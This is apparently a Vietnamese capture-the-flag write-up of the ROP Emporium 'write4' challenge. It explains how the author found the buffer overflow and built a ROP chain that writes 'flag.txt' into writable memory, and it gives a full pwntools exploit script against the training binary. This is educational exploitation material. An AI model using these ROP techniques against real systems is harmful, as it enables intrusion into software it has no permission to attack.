


# ROP_Emporium - write4

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()


Có thể thấy ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:


Còn có hàm usefulFunction()


cũng như usefulGadgets()


# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số **nonexistent** thành flag.txt để hàm này đọc flag file và in ra

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:



Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây


Đối với usefulGadgets() có **mov    QWORD PTR [r14],r15** để đưa giá trị từ thanh ghi r15 vào giá trị tại địa chỉ thanh ghi r14 mà khi ta tra bảng gadget có **pop r14, r15, ret**


Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:


ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:


ở đây mình sẽ lấy **0x601140**


ROP_chain ta sẽ làm như sau:

- pop 2 thanh ghi r14 và r15 để ghi vào chúng
- đẩy vào r14 địa chỉ cần ghi vào
- đưa chuỗi "flag.txt" vào r15
- sử dụng usefulGadget() để đưa giá trị "flag.txt" vào địa chỉ cần ghi
- pop rdi ra để đưa địa chỉ chữa chuỗi "flag.txt" vào
- nhảy đến hàm print_file sau khi đã setup thanh ghi rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./write4', checksec=False)

p = process("./write4")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x601140

payload = flat(
    cyclic(0x28),
    pop_r14_r15,
    null_addr,
    b"flag.txt",
    gadget,
    pop_rdi_ret,
    null_addr,
    vuln+9
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# 4. Lấy flag


